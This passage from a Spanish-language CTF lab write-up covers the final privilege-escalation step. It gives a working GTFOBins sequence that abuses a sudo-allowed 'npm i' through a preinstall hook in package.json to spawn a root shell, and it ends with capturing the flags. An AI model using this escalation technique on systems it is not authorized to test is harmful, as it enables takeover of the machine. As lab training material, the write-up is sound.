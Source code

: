 
Y podemos ejecutar el comando **`npm i`** como sudo. Aprovecharnos del [siguiente](https://gtfobins.github.io/gtfobins/npm/#sudo) recurso que nos explica como poder elevar privilegios.
Según las instrucciones debemos ejecutar la siguiente serie de comandos:
```bash
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
sudo npm -C $TF --unsafe-perm i
```
Debemos adecuarlo a la ruta especificada:
![rootpwn](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/7e052929aea58df28e0ca89d1dc55332b538c3dc/_includes/CTFIMG/Holiday/root.png)

Con esto ya podemos leer las flags y resolveremos el laboratorio.

Pwned! 🏴‍☠️